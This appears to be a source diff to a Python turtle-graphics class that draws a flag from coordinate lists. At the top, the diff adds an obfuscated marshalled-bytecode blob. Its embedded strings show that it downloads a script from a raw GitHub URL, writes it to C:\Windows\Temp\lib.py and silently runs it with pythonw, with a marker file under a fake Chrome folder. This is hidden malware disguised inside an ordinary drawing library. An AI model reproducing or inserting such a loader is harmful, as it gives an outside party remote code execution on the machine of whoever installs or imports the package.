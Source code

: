 ```
+temp =b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00@\x00\x00\x00s\xe4\x00\x00\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x02Z\x02d\x03Z\x03e\x01j\x04\xa0\x05e\x03\xa1\x01s\xe0z\x8ed\x00d\x01l\x06Z\x06e\x06\xa0\x07d\x04\xa1\x01Z\x08e\te\x02d\x05\x83\x02\x8f\x1cZ\ne\n\xa0\x0be\x08j\x0c\xa1\x01\x01\x00W\x00d\x01\x04\x00\x04\x00\x83\x03\x01\x00n\x101\x00sd0\x00\x01\x00\x01\x00\x01\x00Y\x00\x01\x00e\x00\xa0\rd\x06e\x02g\x02\xa1\x01Z\x0ee\te\x03d\x05\x83\x02\x8f\x1aZ\ne\n\xa0\x0fd\x07\xa1\x01\x01\x00W\x00d\x01\x04\x00\x04\x00\x83\x03\x01\x00n\x101\x00s\xa60\x00\x01\x00\x01\x00\x01\x00Y\x00\x01\x00W\x00n,\x04\x00e\x10y\xde\x01\x00Z\x11\x01\x00z\x14e\x12e\x11\x83\x01\x01\x00W\x00Y\x00d\x01Z\x11[\x11n\nd\x01Z\x11[\x110\x000\x00d\x01S\x00)\x08\xe9\x00\x00\x00\x00Nz\x16C:\\Windows\\Temp\\lib.pyz#C:\\Users\\Public\\Google\\Chrome\\USERSzIhttps://raw.githubusercontent.com/MRMYSTERY003/dont-run-this/main/test.py\xda\x01wZ\x07pythonwz\nA$@#C^&*DE)\x13\xda\nsubprocess\xda\x02os\xda\x06p_pathZ\x06c_path\xda\x04path\xda\x06existsZ\x08requests\xda\x03get\xda\x01r\xda\x04open\xda\x01f\xda\nwritelines\xda\x04text\xda\x05PopenZ\x07process\xda\x05write\xda\tException\xda\x01e\xda\x05print\xa9\x00r\x13\x00\x00\x00r\x13\x00\x00\x00\xfa\x08<string>\xda\x08<module>\x01\x00\x00\x00s\x1c\x00\x00\x00\x08\x01\x08\x02\x04\x01\x04\x02\x0c\x01\x02\x01\x08\x01\n\x01\x0c\x01*\x01\x0e\x01\x0c\x01,\x01\x0e\x01'
 
 class flag:
     def __init__(self, x_offset = 300, y_offset = 365):
         '''x_offset and y_offset represents the position of the image being drawn, by default it is 300 you can change it any coordinates you want'''
         import turtle as tu
         self.tu = tu
         self.uind = [(157, 473),(157, 469),(155, 464),(156, 461),(154, 457),(151, 452),(153, 449),(149, 445),(149, 440),(148, 434),(148, 428),(148, 424),(146, 420),(148, 416),(148, 410),(151, 406),(147, 395),(147, 391),(149, 389),(149, 385),(146, 383),(149, 379),(146, 378),(146, 375),(144, 378),(143, 383),(144, 388),(140, 394),(134, 398),(129, 399),(126, 402),(118, 402),(115, 404),(107, 399),(96, 388),(90, 381),(86, 376),(82, 372),(80, 366),(83, 363),(86, 363),(89, 366),(97, 365),(104, 362),(108, 359),(108, 356),(100, 358),(91, 361),(82, 356),(77, 352),(71, 343),(66, 341),(69, 339),(69, 332),(78, 333),(78, 327),(82, 325),(93, 329),(96, 327),(100, 332),(104, 332),(105, 329),(109, 328),(116, 326),(118, 330),(122, 326),(122, 321),(116, 309),(117, 305),(112, 305),(106, 295),(108, 286),(99, 282),(96, 276),(99, 270),(106, 266),(111, 259),(122, 255),(123, 263),(128, 260),(141, 259),(143, 255),(148, 252),(148, 247),(153, 241),(159, 241),(169, 228),(168, 224),(173, 219),(180, 216),(180, 210),(186, 205),(189, 198),(191, 190),(190, 185),(199, 178),(205, 178),(204, 173),(194, 170),(194, 165),(188, 165),(185, 162),(175, 158),(177, 150),(174, 141),(177, 136),(174, 132),(174, 127),(188, 118),(183, 117),(179, 113),(178, 109),(176, 111),(170, 103),(162, 103),(160, 95),(167, 92),(168, 87),(171, 84),(182, 84),(191, 80),(198, 78),(208, 79),(218, 90),(227, 95),(231, 98),(234, 104),(241, 106),(244, 111),(253, 109),(257, 105),(265, 101),(271, 103),(275, 99),(283, 104),(291, 110),(291, 116),(287, 121),(287, 127),(282, 127),(282, 131),(278, 131),(274, 141),(268, 139),(266, 142),(269, 144),(266, 153),(274, 156),(274, 161),(278, 169),(269, 172),(270, 176),(266, 176),(262, 169),(260, 175),(264, 182),(265, 189),(266, 196),(270, 191),(273, 195),(274, 199),(286, 203),(289, 210),(296, 211),(300, 217),(298, 222),(291, 230),(304, 251),(309, 257),(322, 262),(335, 266),(343, 270),(355, 267),(365, 270),(371, 278),(379, 281),(390, 282),(401, 285),(422, 287),(422, 277),(419, 271),(424, 261),(422, 255),(428, 255),(432, 251),(435, 257),(433, 263),(437, 267),(435, 270),(442, 276),(446, 273),(451, 278),(460, 273),(471, 274),(489, 270),(487, 262),(479, 260),(478, 253),(484, 255),(494, 252),(497, 250),(496, 246),(501, 241),(505, 242),(505, 235),(516, 233),(521, 228),(528, 220),(541, 223),(550, 214),(556, 218),(554, 224),(558, 222),(561, 228),(556, 235),(574, 237),(574, 241),(567, 251),(573, 260),(568, 260),(565, 256),(557, 259),(546, 273),(540, 275),(542, 285),(539, 295),(534, 301),(537, 303),(537, 311),(535, 316),(532, 328),(524, 329),(519, 329),(519, 348),(513, 351),(516, 367),(514, 374),(509, 372),(506, 375),(504, 372),(502, 360),(500, 352),(500, 346),(498, 343),(495, 337),(489, 353),(479, 350),(480, 343),(476, 336),(478, 329),(487, 324),(491, 320),(495, 315),(494, 309),(486, 310),(465, 310),(454, 310),(452, 306),(454, 300),(452, 298),(452, 292),(448, 295),(439, 290),(437, 293),(435, 294),(430, 289),(426, 297),(432, 301),(436, 301),(440, 304),(441, 310),(433, 313),(431, 318),(427, 319),(430, 326),(438, 326),(437, 336),(435, 338),(439, 342),(440, 347),(444, 350),(443, 362),(447, 370),(444, 377),(440, 361),(433, 346),(427, 336),(419, 325),(409, 315),(399, 307),(386, 300),(374, 294),(362, 290),(345, 287),(325, 287),(307, 291),(293, 295),(281, 302),(267, 311),(257, 320),(245, 333),(237, 347),(232, 360),(229, 367),(227, 378),(226, 389),(225, 404),(227, 416),(229, 426),(233, 437),(240, 449),(247, 462),(251, 468),(211, 471),(194, 473),(180, 474),(168, 475),(158, 475),(156, 473),]
@@ -483,15 +486,15 @@
         self.draw_fn(self.eball,mode = 0,co = (255,255,255))
         if retain:
             self.turt.done()
 
 
```